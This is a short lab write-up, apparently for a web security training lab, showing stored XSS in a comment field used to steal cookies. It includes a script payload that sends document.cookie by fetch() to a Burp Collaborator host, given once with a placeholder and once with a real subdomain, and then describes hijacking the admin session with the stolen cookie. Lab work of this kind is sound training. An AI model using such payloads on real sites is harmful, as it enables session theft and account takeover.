










This is a real usage of XSS to steal cookies.
First, let's see the vulnerable endpoint:

Leaving our payloads in the field we think are vulnerable:


One of the payloads get rendered:


It is the comment section, as the text on the user name is displayed and the comment is not:


We can create now our payload which basically will perform an HTTP request to our Burp Collaborator server, embedding the cookie as one of the headers:

```javascript
<script> 
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie }); 
</script>
```

Let's set up Burp Collaborator:


Our payload would be:
```javascript
<script> 
fetch('https://h0i6de4wth9eor4zipkzqrgek5qwen2c.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie }); 
</script>
```



The victim will visit this website. If we click on "poll now" in Burp Collaborator, we can see a request from another IP:


Inspecting the HTTP requests leads to this:


Using the `session` cookie leads us to the victim's account:


We can see that we are the administrator user:


Updating the email leads us to solve the lab:


